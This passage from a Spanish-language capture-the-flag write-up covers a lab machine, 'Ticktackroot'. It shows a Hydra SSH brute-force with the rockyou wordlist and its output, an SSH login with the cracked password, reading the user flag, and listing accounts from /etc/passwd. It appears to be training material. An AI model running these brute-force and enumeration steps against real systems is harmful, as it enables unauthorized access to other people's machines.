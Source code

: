 Por si las dudas, apliquemos fuerza bruta al **SSH**:
```bash
hydra -l 'robin' -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.160 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-04 12:51:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.10.160:22/
[22][ssh] host: 192.168.10.160  login: robin   password: ******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 26 final worker threads did not complete until end.
[ERROR] 26 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-04 12:52:01
```
Sí, utiliza la misma contraseña para **SSH**.

Probémoslo:
```bash
ssh robin@192.168.10.160
robin@192.168.10.160's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)
...
Last login: Tue Oct 15 08:45:45 2024
robin@TheHackersLabs-Ticktackroot:~$ whoami
robin
```
Estamos dentro.

Veamos la flag del usuario:
```bash
robin@TheHackersLabs-Ticktackroot:~$ ls
user.txt
robin@TheHackersLabs-Ticktackroot:~$ cat user.txt
...
```

<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima y Escalando Privilegios con Binario timeout</h2>

Veamos qué usuarios existen en la máquina:
```bash
robin@TheHackersLabs-Ticktackroot:~$ cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
oscar:x:1000:1000:oscar:/home/oscar:/bin/bash
robin:x:1001:1001:robin,,,:/home/robin:/bin/bash
```
